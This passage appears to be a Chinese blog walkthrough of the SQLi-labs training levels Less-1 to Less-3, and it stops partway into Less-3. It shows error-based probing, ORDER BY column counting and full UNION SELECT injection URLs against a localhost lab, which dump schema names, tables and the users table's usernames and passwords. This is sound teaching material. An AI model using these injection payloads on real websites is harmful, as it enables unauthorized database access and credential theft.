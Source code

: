 information\_schema.schemata中schema\_name列，字段为所有库名

information\_schema.tables中table\_name列对应数据库所有表名，与table\_schema列对应

information\_schema.columns同理，column\_name与table\_schema和table\_name对应

![](https://upload-images.jianshu.io/upload_images/11356161-fdc1ca20fbf6be3c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

**Less-1**

![](https://upload-images.jianshu.io/upload_images/11356161-c928811f8d737a87.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先`Please input the ID as parameter with numeric value`，param的形式查询字符串为id

id=1闭合单引号报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

添加注释使用order by查列数，此处order by为：`ORDER BY column1 [ASC|DESC], column2 [ASC|DESC],...`，为指定以某一列为key进行排序，通过尝试可以得出列数。这里经尝试为3列

接着进行联合注入，通过回显爆出表名，列名，字段。这里查询时需要将id查询结果限定为空集，第二个查询结果才能显示出来

爆数据库
`http://localhost/sqli/less-1/?id=-1' union select 1,group_concat(schema_name),concat_ws(';',schema_name) from information_schema.schemata--+`

爆当前security数据库的表
`http://localhost/sqli/less-1/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ `

爆user表的列
`http://127.0.0.1/sqli/less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`

爆数据
`http://127.0.0.1/sqli/less-1/?id=-1' union select 1,concat_ws(';',username,password),3 from users where id=1--+`

***

**Less-2**

在查询字符串id值设为1

接着添加单引号，报错为`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

可知单引号影响了闭合，为传入整数查询

后续注入内容与Less-1相同：表-列-值

***

**Less-3**

查询id=1，加单引号，报错为`syntax to use near ''1'') LIMIT 0,1' at line 1`，猜测后台查询语句为`select * from * where id = ('$id') LIMIT 0,1`
